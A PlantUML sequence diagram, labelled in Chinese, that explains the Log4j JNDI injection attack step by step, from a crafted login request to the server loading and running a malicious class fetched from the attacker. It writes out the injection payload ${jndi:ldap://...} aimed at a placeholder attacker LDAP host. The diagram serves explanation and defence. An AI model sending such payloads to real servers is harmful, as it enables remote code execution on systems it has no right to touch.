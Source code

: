 @startuml

攻击者客户端 -> 应用服务端: 1.构造恶意请求:\nhttp://ip:port/login?userName=\n${jndi:ldap://攻击者ladp服务IP:端口/Exploit}

应用服务端 -> 应用服务端: 2.login接口打印请求日志\nlog.info("登录,用户名:{}",userName);

应用服务端 -> 攻击者ladp服务: 3.log4j漏洞:打印恶意构造的日志时会请求ladp服务
攻击者ladp服务 -> 应用服务端: 4.返回攻击者恶意构造的class文件的http地址
应用服务端 -> 攻击者http服务: 5.发送http,请求恶意class文件
攻击者http服务 -> 应用服务端: 6.返回恶意class文件
应用服务端 -> 应用服务端: 7.加载恶意class文件,执行恶意代码
@enduml